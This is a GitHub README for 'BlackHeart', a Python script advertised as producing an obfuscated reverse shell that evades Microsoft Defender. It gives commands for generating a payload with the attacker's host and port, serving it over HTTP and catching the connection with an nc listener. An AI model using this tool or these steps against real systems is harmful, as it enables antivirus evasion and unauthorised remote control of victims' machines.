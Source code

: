 # BlackHeart
<img src="https://img.shields.io/badge/-Linux-black?style=for-the-badge&logo=Linux&logoColor=white"> <img src="https://img.shields.io/badge/-Python-black?style=for-the-badge&logo=python&logoColor=white"><br>

BlackHeart is a simple python script to demonstrate reverse shell gaining without Microsoft Defender restrictions. (FOR EDUCATIONAL PURPOSES!!)

# Updates
<b>04/09/2022</b>

- [X] Added basic obfuscation to reverse shell file.
- [X] Bug fixes.

# Setup
You can use simply the following command<br>
```bash
pip3 install -r requirements.txt
```

# Usage
- First of all you have to generate a template for your shell.
```bash
python3 blackheart.py --lhost YOUR_IP --lport YOUR_PORT
```

- Then you have to open a simple http server to serve your template.
```bash
python3 -m http.server
```

- And you need to open a listener port to listen incoming connections.
```bash
nc -lvp 4545
```

# PoC
https://user-images.githubusercontent.com/42123683/188307621-dba04ee0-5cb3-4c72-94dd-d1ee95661a50.mp4
